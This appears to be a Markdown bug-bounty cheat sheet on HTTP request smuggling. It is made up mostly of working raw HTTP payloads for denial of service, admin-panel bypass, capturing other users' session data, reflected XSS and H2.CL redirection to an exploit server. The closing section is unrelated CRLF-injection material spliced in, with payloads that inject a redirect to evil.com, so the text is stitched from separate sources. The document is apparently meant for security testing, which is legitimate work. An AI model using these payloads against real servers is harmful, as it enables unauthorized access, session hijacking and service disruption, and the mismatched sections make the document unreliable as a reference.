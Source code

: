 # HTTP Request Smuggling

## Introduction
HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

## Where to find
Request smuggling is primarily associated with HTTP/1 requests.
websites that support HTTP/2 may be vulnerable, depending on their back-end architecture (HTTP/1).

## Impact
bypass security controls
Gain unauthorized access to sensitive data
DoS aplication user with 404

## How to exploit
1. Basic payload
```
#BurpIntruder to send every second and change version to HTTP/1, no header update
Note: length is important for this attack

#DoS
POST / HTTP/1.1
Host: www.vuln.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
--------------------------

POST / HTTP/1.1
Host: www.vuln.com
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

--------------

#Bypass
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
----------------
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


#Post comment & Get Session
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=your-session-token

csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test



###XSS
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1





POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net


#Response: (repeat each 5 sec until get bellow response)
302



--------------------------------------
###H2.CL
POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Content-Length: 5

x=1




Bug Bounty Report
https://hackerone.com/reports/726773
```
The response is
```
HTTP/1.1 200 OK
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Set-Cookie: language=en
Location: https://evil.com/
```

2. Double encode
```
https://example.com/?lang=en%250D%250ALocation:%20https://evil.com/
```

3. Bypass unicode
```
https://example.com/?lang=en%E5%98%8A%E5%98%8DLocation:%20https://evil.com/
```

## References
* [@filedescriptor](https://blog.innerht.ml/twitter-crlf-injection/)
* [EdOverflow](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md)
